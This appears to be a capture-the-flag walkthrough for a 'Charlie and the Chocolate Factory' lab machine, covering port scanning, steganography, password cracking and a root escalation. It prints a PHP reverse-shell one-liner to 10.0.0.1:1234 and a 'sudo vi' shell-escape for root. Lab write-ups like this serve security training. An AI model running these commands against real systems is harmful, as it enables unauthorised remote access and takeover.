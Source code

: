 ```yaml
---
title: charlie and the chocolate factory CTF
premalink: /chocolate
---
```

# Charlie and the Chocolate Factory

## Open Ports:
```
nmap -A $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : bit.ly/3igPwZ9
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

** Now you have the access to the machine**
* go to /home/charlie

```
cat uesr.txt
```
## root 

* start tty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
* go to /root
```
python root.py
```
* Enter the key found after reversing

